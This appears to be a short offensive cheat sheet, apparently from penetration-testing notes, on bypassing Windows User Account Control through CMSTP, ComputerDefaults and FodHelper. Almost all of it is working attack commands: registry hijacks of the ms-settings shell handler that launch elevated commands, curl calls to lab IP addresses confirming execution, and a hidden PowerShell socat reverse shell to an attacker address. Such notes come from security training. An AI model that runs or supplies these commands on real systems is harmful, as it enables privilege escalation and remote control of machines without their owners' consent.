 ### CMSTP

- Invoke and run: `Bypass-UAC -Command "curl http://192.168.45.223/worked"`

### Manual Approach - ComputerDefaults

    New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force
    New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
    Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "C:\Windows\System32\cmd.exe /c curl http://192.168.50.149/worked" -Force
    Start-Process "C:\Windows\System32\ComputerDefaults.exe"

### Improving FodHelper

    New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
    Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force   
    New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
    Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force 
    set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"
    reg add "HKCU\Software\Classes\.pwn\Shell\Open\command" /d %CMD% /f
    reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".pwn" /f
    fodhelper.exe
